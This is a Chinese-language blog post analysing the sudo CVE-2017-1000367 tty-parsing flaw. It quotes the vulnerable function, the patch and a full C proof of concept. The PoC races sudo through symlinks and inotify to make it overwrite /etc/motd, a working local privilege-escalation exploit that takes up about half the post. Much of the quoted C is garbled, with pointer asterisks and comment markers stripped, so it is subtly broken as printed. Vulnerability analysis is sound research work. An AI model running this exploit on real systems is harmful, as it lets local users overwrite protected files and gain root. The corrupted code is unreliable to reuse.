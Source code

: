 ```yaml
---
layout: post
title: sudo本地提权 CVE-2017-1000367 漏洞分析
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;该漏洞发生在/src/ttyname.c的`get_process_ttyname()`函数，sudo在获取tty设备号时没有正确解析/proc/[pid]/stat的内容。首先，/proc/[pid]的stat包含了所有的CPU活跃信息，有关触发此漏洞的两个stat参数分别为：
```
第2个：comm应用程序或命令的名字
第7个：tty_nr也就是tty设备号
```

这些参数是使用空格进行分割的，再来看看get_process_ttyname()函数是怎么获取`tty_nr`的：

```
len = getline(&line, &linesize, fp);
fclose(fp);
if (len != -1) {
    / Field 7 is the tty dev (0 if no tty) /
    char cp = line;
    char ep = line;
    const char errstr;
    int field = 0;
    while (++ep != '\0') {
        if (ep == ' ') {
            ep = '\0';
            if (++field == 7) {
                dev_t tdev = strtonum(cp, INT_MIN, INT_MAX, &errstr);
                if (errstr) {
                    sudo_debug_printf(SUDO_DEBUG_ERROR|SUDO_DEBUG_LINENO,
                        "%s: tty device %s: %s", path, cp, errstr);
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;程序在获取tty_nr时也就是根据多少空格个来判断当前是哪个参数，那么上面提到的第2个参数comm，这个参数是以括号独立起来的，并且程序或命令的名字当然允许包含空格。那么就可以通过控制comm参数的空格导致tty_nr的值同样被控制，使得本地攻击者来覆盖文件系统上的任何文件，从而绕过预期权限或获取root shell。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;再来看看补丁，补丁第一处是将get_process_ttyname()函数在获取tty_nr时从’)’后开始获取，这样避免了comm包含空格的特性：

```
if (nread == 0 && memchr(buf, '\0', cp - buf) == NULL) {
    /
      Field 7 is the tty dev (0 if no tty).
      Since the process name at field 2 "(comm)" may include
      whitespace (including newlines), start at the last ')' found.
     /
    cp = '\0';
    cp = strrchr(buf, ')');
    if (cp != NULL) {
    char ep = cp;
    const char errstr;
    int field = 1;

    while (++ep != '\0') {
        if (ep == ' ') {
        ep = '\0';
        if (++field == 7) {
            dev_t tdev = strtonum(cp, INT_MIN, INT_MAX, &errstr);
            if (errstr) {
            sudo_debug_printf(SUDO_DEBUG_ERROR|SUDO_DEBUG_LINENO,
                "%s: tty device %s: %s", path, cp, errstr);
            }
            if (tdev > 0) {
            errno = serrno;
            ret = sudo_ttyname_dev(tdev, name, namelen);
            goto done;
            }
            break;
        }
        cp = ep + 1;
        }
    }
    }
}
```

第二处是添加了搜索设备号对应的设备名的两个地址：

```
 static char ignore_devs[] = {
     "/dev/fd/",
+    "/dev/mqueue/",
+    "/dev/shm/",
     "/dev/stdin",
     "/dev/stdout",
     "/dev/stderr",
```

POC:

```
#define _GNU_SOURCE
#include <errno.h>
#include <linux/sched.h>
#include <pty.h>
#include <sched.h>
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/inotify.h>
#include <sys/resource.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/wait.h>

#define EVENT_SIZE  ( sizeof (struct inotify_event) )
#define EVENT_BUF_LEN     ( 1024  ( EVENT_SIZE + 16 ) )


int main( )
{

    int length, i = 0;
  int fd;
  int wd;
  char buffer[EVENT_BUF_LEN];

    int master, slave;
    char pts_path[256];

    cpu_set_t  mask;
    struct sched_param params;
    params.sched_priority = 0;
    CPU_ZERO(&mask);
    CPU_SET(0, &mask);

    mkdir("/dev/shm/_tmp", 0755);
    symlink("/dev/pts/57", "/dev/shm/_tmp/_tty");
    symlink("/usr/bin/sudo", "/dev/shm/_tmp/     34873 ");

    fd = inotify_init();
    wd = inotify_add_watch( fd, "/dev/shm/_tmp", IN_OPEN | IN_CLOSE_NOWRITE );

     pid_t pid = fork();

    if(pid == 0) {
        sched_setaffinity(pid, sizeof(mask), &mask);
        sched_setscheduler(pid, SCHED_IDLE, &params);
        setpriority(PRIO_PROCESS, pid, 19);

        sleep(1);
        execlp("/dev/shm/_tmp/     34873 ", "sudo", "-r", "unconfined_r", "/usr/bin/sum", "—\nHELLO\nWORLD\n", NULL);
    }else{
        setpriority(PRIO_PROCESS, 0, -20);
        int state = 0;
        while(1) {
            length = read( fd, buffer, EVENT_BUF_LEN );
            kill(pid, SIGSTOP);

            i=0;
            while ( i < length ) {
                struct inotify_event event = ( struct inotify_event * ) &buffer[ i ];

                if ( event->mask & IN_OPEN ) {
                    //kill(pid, SIGSTOP);

                    while(strcmp(pts_path,"/dev/pts/57")){
                        openpty(&master, &slave, &pts_path[0], NULL, NULL);
                    };
                    //kill(pid, SIGCONT);
                    break;

                }else if ( event->mask & IN_CLOSE_NOWRITE ) {
                    //kill(pid, SIGSTOP);

                    unlink("/dev/shm/_tmp/_tty");
                    symlink("/etc/motd", "/dev/shm/_tmp/_tty");
                    //kill(pid, SIGCONT);

                    state = 1;
                    break;
                }

                i += EVENT_SIZE + event->len;

            }
            kill(pid, SIGCONT);
            if(state == 1) break;
        }

        waitpid(pid, NULL, 0);
        inotify_rm_watch( fd, wd );
        close( fd );
        close(wd);

        unlink("/dev/shm/_tmp/_tty");
        unlink("/dev/shm/_tmp/     34873 ");
        rmdir("/dev/shm/_tmp");
        close(master);
        close(slave);
    }

}
```

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/4refdergth.png">

